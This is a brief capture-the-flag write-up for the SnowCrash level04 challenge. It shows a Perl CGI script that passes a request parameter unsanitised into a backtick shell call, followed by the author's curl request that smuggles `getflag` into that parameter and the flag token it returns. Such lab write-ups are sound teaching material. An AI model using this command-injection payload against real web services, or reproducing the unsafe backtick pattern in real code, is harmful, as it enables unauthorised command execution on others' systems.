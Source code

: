 In home directory there is the Perl script file:
```shell
level04@SnowCrash:~$ ls
level04.pl
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
We see that script must be run on port 4747:
<# localhost:4747>
In function x parametr $y takes only first argument. And we can send path to command getflag with backquotes
`/bin/getflag`. And script will done it with privilege of user flag04.
```shell
level04@SnowCrash:~$ curl 'localhost:4747/?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
